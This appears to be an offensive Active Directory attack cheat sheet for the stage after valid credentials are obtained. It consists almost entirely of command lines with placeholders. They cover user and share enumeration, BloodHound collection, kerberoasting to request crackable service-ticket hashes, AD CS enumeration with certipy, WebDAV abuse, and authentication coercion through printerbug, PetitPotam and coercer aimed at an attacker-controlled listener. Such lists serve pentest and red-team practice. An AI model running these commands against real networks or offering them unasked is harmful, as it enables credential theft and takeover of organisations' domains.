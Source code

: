 # Got valid credentials

## Get all users
	GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>
	cme smb <ip> -u <user> -p '<password>' --users 
	Users

## enumerate SMB share
	cme smb <ip> -u <user> -p <password> --shares
	Account

## 🔥bloodhound
	bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all
	./rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile> -z
	import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>
	sharphound.exe -c all -d <domain>

## Powerview / SharpView

## adPeas

## pingcastle

## 🔥kerberoasting
	Get kerberoastable users
		Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
		MATCH (u:User {hasspn:true}) RETURN u
		MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
	Get hash
		GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
		Rubeus kerberoast
		
## Enum dns 
	dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>
	Scan network

## Enumerate AD CS 
	 🔥 certipy find -u <user>@<domain> -p <password> -dc-ip <domaincontroller>
	
## Webdav
	cme smb <ip> -u <user> -p <password> -M webdav #find
	start webdav with Documents.searchConnector-ms file
	coerce with <attacker_hostname>@80/something as target

## Coerce
	rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN
	printerbug.py '<domain>/<username>:<password>'@<Printer IP> <listener_ip>
	PetitPotam.py  -d <domain> -u <user>-p <password> <listener_ip> <target_ip>
    🔥coercer.py -u <user> -d <domain> -p <password> -t <target> -l <attacker_ip>

